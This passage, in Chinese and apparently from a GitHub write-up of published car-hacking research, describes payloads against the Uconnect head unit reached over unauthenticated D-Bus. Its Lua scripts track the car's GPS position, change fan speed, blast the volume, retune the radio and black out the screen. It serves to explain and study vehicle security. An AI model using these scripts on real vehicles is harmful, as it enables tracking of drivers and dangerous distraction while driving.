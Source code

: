 ## Uconnect 攻击载荷

Miller 等人发现了在Uconnect中很多 LUA 脚本可用于影响车辆内部和通信功能，例如调高音量或阻止某个控制功能起作用。这些脚本提供了一个命令集，一旦攻击者可以远程接入系统，那么相关车辆功能都有可能受其影响。

车机有查询和获取GPS位置的功能，相关数据也可以通过未授权的 D-Bus 通信从端口6667得到。例如相关脚本如下：

```lua
service = require("service")
gps = "com.harman.service.NDR"
gpsMethod = "JSON_GetProperties"
gpsParams = {
 inprop = {
 "SEN_GPSInfo"
 }
}
response = service.invoke(gps, gpsMethod, gpsParams)
print(response.outprop.SEN_GPSInfo.latitude, response.outprop.SEN_GPSInfo.longitude) 
```

执行该脚本得到GPS信息：
```sh
$ lua getGPS.lua
40910512 -73184840
```

在某些地图软件，例如 Google Map中输入这个数值 40.910512 -73.184840，可以发现目标车辆的位置为 Long Island。

车机还可以控制车辆供暖和空调，下面代码是设置风扇为任意速度的示例：

```lua
require "service"
params = {}
control = {}
params.zone = "front"
control.fan = arg[1]
params.controls = control
x=service.invoke("com.harman.service.HVAC", "setControlProperties", params)
```

车机还有一大功能是控制Radio，这一点也是可以远程实现控制的。例如攻击者知道某首歌曲正在播放，他可以使用下列脚本突然调高音量：

```lua
require "service"
params = {}
params.volume = tonumber(arg[1])
x=service.invoke("com.harman.service.AudioSettings", "setVolume", params)
```

还可以通过脚本设定FM电台：
```lua
require "service"
Tuner = "com.harman.service.Tuner"
service.invoke(Tuner, "setFrequency", {frequency = 94700})
```
或是通过脚本改变当前车机屏幕的显示：
```lua
require "service"
x=service.invoke("com.harman.service.LayerManager", "viewBlackScreen", {})
x=service.invoke("com.harman.service.LayerManager", "stopBlackScreen", {})
x=service.invoke("com.harman.service.LayerManager", "viewCameraInput", {})
x=service.invoke("com.harman.service.LayerManager", "stopViewInput", {})
x=service.invoke("com.harman.service.LayerManager", "showSplash", {timeout =2})
```
